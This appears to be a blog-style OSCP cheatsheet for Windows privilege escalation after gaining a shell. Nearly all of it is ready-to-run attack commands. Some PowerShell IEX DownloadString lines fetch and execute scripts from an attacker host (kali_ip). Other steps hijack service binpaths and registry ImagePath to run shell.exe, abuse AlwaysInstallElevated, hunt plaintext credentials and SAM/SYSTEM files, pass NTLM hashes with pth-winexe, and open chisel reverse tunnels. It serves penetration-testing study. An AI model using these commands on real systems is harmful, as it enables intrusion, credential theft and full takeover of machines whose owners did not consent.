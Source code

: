 ```yaml
---
title: Windows Privilege Escalation
date: 2020-06-26 18:05:42
tags: [oscp, cheatsheet, windows, privilege escalation]
---
```


# Windows Privilege Escalation Cheatsheet

So you got a shell, what *now*?
This post will help you with local enumeration as well as escalate your privileges further.

Usage of different enumeration scripts and tools is encouraged, my favourite is [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS). If confused which executable to use, use [this](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/winPEAS/bin/Obfuscated%20Releases/winPEASany.exe)

Keep in mind:
* To exploit services or registry, you require:
    * appropriate write permissions
    * service start permission
    * service stop permission
* To exploit AutoLogon services:
    * Permissions to restart the machine
* Look for non-standard programs on the system

*Note: This is a live document. I'll be adding more content as I learn more*

## General Information
``` powershell
# If nothing is specified, assume command can be run on cmd.exe or powershell.exe
whoami
echo %username%
whoami /all

hostname
echo %hostname%

net users
net users username

# Note hostname, patches, architecture
systeminfo

# Both should be the same for ease of exploitation
# PowerShell
[environment]::Is64BitOperatingSystem
[environment]::Is64BitProcess

# all, addresses:port, PID
netstat -ano
```
## File Transfer
``` powershell
# On KALI
# use double-quotes if file path has spaces in it 
sudo impacket-smbserver abcd /path/to/serve

# mount drives
net use abcd: \\kali_ip\myshare
net use abcd: /d # disconnect
net use abcd: /delete # then delete
# PowerShell
New-PSDrive -Name "abcd" -PSProvider "FileSystem" -Root "\\ip\abcd"
Remove-PSDrive -Name abcd

# OR copy directly from the share without mounting
copy //kali_ip/abcd/file_name C:\path\to\save
copy C:\path\to\file //kali_ip/abcd
copy "C:\Program Files\..\legit.exe" C:\Temp
copy /Y C:\Downloads\shell.exe "C:\Program Files\...\legit.exe"

# Download to Windows
powershell.exe -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://ip/file')"
powershell.exe -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadFile('http://ip/file','C:\Users\Public\Downloads\file')"
powershell.exe -nop -ep bypass -c "IWR -URI 'http://ip/file' -Outfile '/path/to/file'"
certutil -urlcache -f http://kali_ip/file file
```
## Automated Enumeration
``` powershell
# Run winPEAS
# For color: 
	# > REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
	# > cmd.exe
.\winpeasany.exe quiet
```
## Accesschk

``` powershell
# .\accesschk.exe /accepteula
# -c : Name a windows service, or use * for all
# -d : Only process directories
# -k : Name a registry key e.g., hklm/software
# -q : Omit banner
# -s : Recurse
# -u : Suppress errors
# -v : Verbose
# -w : Show objects with write access

# Check service permissions
# ALWAYS RUN THE FOLLOWING TO CHECK IF YOU'VE PERMISSIONS TO START AND STOP THE SERVICE
.\accesschk.exe /accepteula -ucqv <user> <svc_name>

# Get all writable services as per groups
.\accesschk.exe /accepteual -uwcqv Users *
.\accesschk.exe /accepteula -uwcqv "Authenticated Users" *

# Is dir writable? - Unquoted service paths
.\accesschk.exe /accepteula -uwdv "C:\Program Files"

# User permissions on an executable
.\accesschk.exe /accepteula -uqv "C:\Program Files\...\file.exe"

# Find all weak permissions - folders
.\accesschk.exe /accepteula -uwdqs Users c:\
.\accesschk.exe /accepteula -uwdqs "Authenticated Users" c:\

# Find all weak permissions - files
.\accesschk.exe /accepteula -uwqs Users c:\*.*
.\accesschk.exe /accepteula -uwqs "Authenticated Users" c:\*.*

# Registry ACL - Weak registry permissions
.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\svc_name
# PowerShell
Get-Acl HKLM\System\CurrentControlSet\Services\svc_name | Format-List

# Get rights of any file, or folder
# PowerShell
(get-acl C:\path\to\file).access | ft IdentityReference,FileSystemRights,AccessControlType
```
## sc.exe
``` powershell
# Query service configuration
# Verify after doing all the changes
sc qc svc

# Current state of the service
sc query svc

# Modify config
sc config svc binpath= "\"C:\Downloads\shell.exe\""

# if dependencies exist
sc config depend_svc start= auto
net start depend_svc
net start svc

# can instead remove dependency too
sc config svc depend= ""

# Start/stop the service
net start/stop svc
```
## Registry 
``` powershell
# Query configuration of registry entry of the service
reg query HKLM\System\CurrentControlSet\Services\svc_name

# Point the ImagePath to malicious executable
reg add HKLM\SYSTEM\CurrentControlSet\services\svc_name /v ImagePath /t REG_EXPAND_SZ /d C:\path\shell.exe /f

# Start/stop the service to get the shell
net start/stop svc

# Execute a reverse_shell.msi as admin
# Manually, both query's output should be 0x1 to exploit
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
## Credentials or Hashes
``` powershell
# Common creds location, always in plaintext
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogin"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s

# If found, prints the location of the file
dir /s <filename> # or extensions
dir /s SAM
dir /s SYSTEM
dir /s Unattend.xml

# Found creds?
# On KALI
# --system only works if admin creds are on hand
winexe -U 'admin%pass123' [--system] //10.10.10.10 cmd.exe
# Found hash?
pth-winexe -U 'domain\admin%LM:NTLM' [--system] //10.10.10.10 cmd.exe
```
## RunAs
``` powershell
# cmd
runas /savecred /user:admin C:\abcd\reverse.exe
# PowerShell
$password = ConvertTo-SecureString 'pass123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://kali_ip/shell.ps1')" -Credential $cred
```
## Port Forwarding 
``` powershell
# If some port are listening on the target machine but inaccessible, forward the ports - Port Forwarding
# winexe, pth-winexe works on 445, MySQL on 3306
# On KALI
./chisel server --reverse --port 9001
# On Windows
.\chisel.exe client KALI_IP:9001 R:KALI_PORT:127.0.0.1:WINDOWS_PORT

# On KALI
winexe -U 'administrator%pass123' --system //127.0.0.1 KALI_PORT 
mysql --host=127.0.0.1 --port=KALI_PORT -u username -p
```
## Exploit suggester
Windows exploit suggester can be found [here](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
``` powershell
# On KALI
# Find exploits
# .\windows-exploit-suggester.py --update
.\windows-exploit-suggester.py -i systeminfo.txt -d 2020-xxx.xlsx
```